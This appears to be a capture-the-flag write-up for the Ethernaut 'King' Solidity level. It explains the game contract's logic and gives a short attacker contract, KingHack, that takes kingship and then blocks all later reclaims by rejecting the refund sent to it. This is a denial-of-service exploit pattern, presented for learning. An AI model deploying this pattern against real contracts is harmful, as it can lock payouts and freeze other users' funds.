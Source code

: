 # King

This level represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process!
The goal is to break it (When submitting the instance back to the level, the level is going to reclaim kingship. We will beat the level if we can avoid such a self proclamation.)

## Code Breakdown

```solidity
  address king;
  uint public prize;
  address public owner;
```

The contract has 2 public variables `prize` and `owner` that store the current prize amount and the contract's owner, and one internal address `king` that stores the current king of the game. All are set at contract's creation.

```solidity
constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }
```

the `constructor()`  sets the `king` and `prize` variables to the address and value of the transaction that created the contract.

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

the receive function allows players to send transactions to the contract and become the new `king` if the value of their transaction is greater than or equal to the current `prize` amount, or if they are the contract owner. When a player becomes the new `king`, the contract transfers the value of the transaction to the previous `king` and updates the `prize` and `king` variables with the new values.

```solidity
function _king() public view returns (address) {
    return king;
  }
```

The contract also has a public function called `_king` that returns the address of the current `king`. This function can be called by other contracts or external users to get the current `king` of the game.

## Level Completion

It seems that the owner can always call `receive()` and reclaim the king status no matter what.
So how can we stop it from doing so?
The answer lies in this line of code :
```solidity
payable(king).transfer(msg.value);
```
the line that sends ether to the previous `king`.
From the [solidity docs](https://docs.soliditylang.org/en/v0.8.17/contracts.html?highlight=transfer#receive-ether-function), we know that ***if a contract has no `receive()` nor a payable `fallback()` function is present, the contract cannot receive Ether through regular transactions and throws an exception.***
That means if the exception is thrown, the code after (where the new king and prize are set) will not be executed.

Let's create a contract on [Remix IDE](https://remix.ethereum.org/):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingHack {
  // this contract has no receive() nor fallback() function so it can't receive ether back
  function hack(address payable _to) public payable{
    (bool sent, ) = _to.call{value: msg.value}(""); // send msg.value to the game instance
    require(sent, "Ether not sent!");
  }
}
```
After deploying this contract, let's call `hack()` with a value of wei more or equal than `prize` and with the game instance as argument to claim `king`.

**This level is inspired from [King Of The Ether](http://www.kingoftheether.com/postmortem.html) Game**